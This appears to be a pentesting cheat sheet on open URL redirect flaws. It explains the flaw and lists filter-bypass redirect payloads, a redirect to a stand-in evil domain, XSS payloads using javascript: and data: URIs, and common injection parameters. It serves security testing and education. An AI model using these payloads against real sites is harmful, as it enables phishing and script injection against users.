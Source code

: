# Open URL Redirection

> Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Summary

- [Exploitation](#exploitation)
- [HTTP Redirection Status Code - 3xx](#http-redirection-status-code---3xx)
- [Fuzzing](#fuzzing)
- [Filter Bypass](#filter-bypass)
- [Common injection parameters](#common-injection-parameters)
- [References](#references)

## Exploitation

Let’s say there’s a `well known` website - https://famous-website.tld/. And let's assume that there's a link like :

```powershell
https://famous-website.tld/signup?redirectUrl=https://famous-website.tld/account
```
After signing up you get redirected to your account, this redirection is specified by the `redirectUrl` parameter in the URL.   
What happens if we change the `famous-website.tld/account` to `evil-website.tld`?

```powerhshell
https://famous-website.tld/signup?redirectUrl=https://evil-website.tld/account
```

By visiting this url, if we get redirected to `evil-website.tld` after the signup, we have an Open Redirect vulnerability. This can be abused by an attacker to display a phishing page asking you to enter your credentials.


## HTTP Redirection Status Code - 3xx

- [300 Multiple Choices](https://httpstatuses.com/300)
- [301 Moved Permanently](https://httpstatuses.com/301)
- [302 Found](https://httpstatuses.com/302)
- [303 See Other](https://httpstatuses.com/303)
- [304 Not Modified](https://httpstatuses.com/304)
- [305 Use Proxy](https://httpstatuses.com/305)
- [307 Temporary Redirect](https://httpstatuses.com/307)
- [308 Permanent Redirect](https://httpstatuses.com/308)

## Fuzzing

Replace www.whitelisteddomain.tld from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Filter Bypass

Using a whitelisted domain or keyword

```powershell
www.whitelisted.com.evil.com redirect to evil.com
```

Using CRLF to bypass "javascript" blacklisted keyword

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" to bypass "http" blacklisted keyword

```powershell
//google.com
```

Using "https:" to bypass "//" blacklisted keyword

```powershell
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)

```powershell
\/\/google.com/
/\/google.com/
```

Using "%E3%80%82" to bypass "." blacklisted character

```powershell
/?redir=google。com
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```powershell
//google%00.com
```

Using parameter pollution

```powershell
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```powershell
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

XSS from Open URL - If it's in a JS variable

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```

## Common injection parameters

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

## References

* filedescriptor
* [OWASP - Unvalidated Redirects and Forwards Cheat Sheet](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
* [Pentester Land - Open Redirect Cheat Sheet](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [Open Redirect Vulnerability - AUGUST 15, 2018 - s0cket7](https://s0cket7.com/open-redirect-vulnerability/)